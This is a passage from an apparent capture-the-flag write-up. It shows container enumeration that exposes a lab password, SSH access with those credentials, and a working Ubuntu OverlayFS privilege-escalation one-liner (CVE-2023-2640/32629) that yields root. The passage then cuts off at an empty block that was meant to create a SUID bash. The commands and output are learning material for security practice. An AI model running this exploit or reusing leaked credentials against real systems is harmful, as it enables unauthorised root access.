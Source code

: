 ```
drwxr-xr-x    2 root     root          4096 Jun 14 15:03 sbin
drwxr-xr-x    2 root     root          4096 Jun 14 15:03 srv
dr-xr-xr-x   13 root     root             0 Oct  5 21:44 sys
drwxrwxrwt    1 root     root          4096 Oct  7 20:00 tmp
drwxr-xr-x    1 root     root          4096 Jun 29 20:39 usr
drwxr-xr-x    1 root     root          4096 Jun 14 15:03 var
```
A short bit of enumeration later, we can find a very interesting entry into our environment:
```
2c83a4df89a6:/app$ env
env
SHELL=/bin/sh
MB_DB_PASS=
HOSTNAME=2c83a4df89a6
LANGUAGE=en_US:en
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/app
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8
META_USER=metalytics
META_PASS=An4lytics_ds20223#
MB_EMAIL_SMTP_PASSWORD=
<...SNIP...>
```
We have a pair of credentials as `metalytics:An4lytics_ds20223#`
Using this, we can ssh into the system outside of the docker container:
```
┌──(kali㉿kali)-[~]
└─$ ssh metalytics@10.10.11.233
metalytics@10.129.147.5's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 6.2.0-25-generic x86_64)
<...SNIP...>
metalytics@analytics:~$ 
```
## Privilege Escalation
The next step was quite troublesome with no real indication of vulnerability. Since the CVE is so recent, most common vulnerability scanners do not pick up on it. However, if your eye is keen enough, you can pick up on the Ubuntu kernel version:
```
metalytics@analytics:/tmp$ cat /etc/issue
Ubuntu 22.04.3 LTS \n \l
```
A google search for this version, and you can quickly find posts about [CVE-2023-2640 & CVE-2023-32629](https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu_local_privilege_escalation_cve20232640/). In this post, there are a couple example 1 liners we can try to execute. Trying the first POC with id:
```
metalytics@analytics:~$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("id")'mkdir: cannot create directory ‘l’: File exists
mkdir: cannot create directory ‘u’: File exists
mkdir: cannot create directory ‘w’: File exists
mkdir: cannot create directory ‘m’: File exists
uid=0(root) gid=1000(metalytics) groups=1000(metalytics)
```
Although there are some error messages, we can see the `id` is processed, and we are shown to have uid of root! Next, we can try supplying a malicious command, making a `SUID` out of bash. This will allow anybody to spawn a bash session as root:
```
```